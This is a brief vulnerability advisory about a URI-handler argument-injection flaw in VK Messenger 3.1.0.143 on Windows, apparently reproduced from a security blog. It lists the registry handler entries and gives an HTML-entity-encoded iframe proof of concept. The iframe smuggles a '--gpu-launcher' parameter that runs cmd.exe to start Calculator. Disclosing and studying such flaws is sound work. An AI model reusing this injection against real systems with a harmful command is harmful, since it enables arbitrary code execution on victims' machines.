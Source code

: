 
Vulnerability Summary:

The following describes a vulnerability in VK Messenger that is triggered via the exploitation of improperly handled URI.

Affected Version:

VK Messenger version 3.1.0.143

The VK Messenger, which is part of the VK package, registers a uri handler on Windows in the following way:
```s
[HKEY_CLASSES_ROOT\vk]
"URL Protocol"=""
@="URL:vk"
 
[HKEY_CLASSES_ROOT\vk\shell]
 
[HKEY_CLASSES_ROOT\vk\shell\open]
 
[HKEY_CLASSES_ROOT\vk\shell\open\command]
@="\"C:\\Program Files\\VK\\vk.exe\" \"%1\""
```

When the browser processes the ‘vk://’ uri handler it is possible to inject arbitrary command line parameters for vk.exe, since the application does not properly parse them. It is possible to inject the ‘–gpu-launcher=’ parameter to execute arbitrary commands. It is also possible to inject the ‘–browser-subprocess-path=’ parameter to execute arbitrary commands. Network share paths are allowed, too.

Example of attack encoded in HTML entity:

```html
<iframe src='vk:?"&#32;&#45;&#45;&#103;&#112;&#117;&#45;&#108;&#97;&#117;&#110;&#99;&#104;&#101;&#114;&#61;&#34;&#99;&#109;&#100;&#46;&#101;&#120;&#101;&#32;&#47;&#99;&#32;&#115;&#116;&#97;&#114;&#116;&#32;&#99;&#97;&#108;&#99;&#34;&#32;&#45;&#45;'></iframe>
```
When opening a malicious page, a notification box asks the user to open VK.

NOTE: The application is not in the auto-startup items, and the issue will work if the application is not already started.

## 资料

https://blogs.securiteam.com/index.php/archives/3674#more-3674
